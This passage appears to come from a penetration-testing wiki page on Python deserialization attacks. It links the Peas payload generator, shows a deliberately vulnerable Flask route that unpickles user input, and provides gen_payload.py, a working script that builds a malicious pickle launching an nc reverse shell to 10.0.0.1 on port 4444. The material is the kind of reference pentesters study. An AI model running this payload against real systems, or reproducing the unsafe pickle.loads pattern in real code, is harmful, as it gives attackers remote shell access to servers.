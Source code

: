{% tab title="Tools" %}
The tool [Peas](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) can be used to generate payloads. It create **serialized payload** for deserialization RCE attack on python driven applications where pickle ,**pyYAML**, **ruamel.yaml** or **jsonpickle** module is used for deserialization of serialized data.

```
python3 peas.py
```
{% endtab %}
{% endtabs %}

### Pickle/cPickle Deserialization

The python `pickle` and `cPickle` (implementation of Pickle in C) modules, that serializes and deserializes a Python object, are vulnerables to remote code execution. If the website uses this modules, we may be able to execute arbitrary code.

{% tabs %}
{% tab title="Enumerate" %}
With **Pickle** deserialization ,the following code is vulnerable to arbitrary code execution using the `pickle.load()` function without proper sanitization of the input.

```python
import pickle
import base64
from flask import Flask, request

@app.route("/hackme", methods=["POST"])
def hackme():
    data = base64.urlsafe_b64decode(request.form['pickled'])
    deserialized = pickle.loads(data)
    # do something with deserialized or just
    # get pwned.

    return '', 204
```
{% endtab %}

{% tab title="Payloads" %}
You may run the below Python script to generate a payload for a reverse shell.

{% code title="gen_payload.py" %}
```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4444 > /tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))

```
{% endcode %}
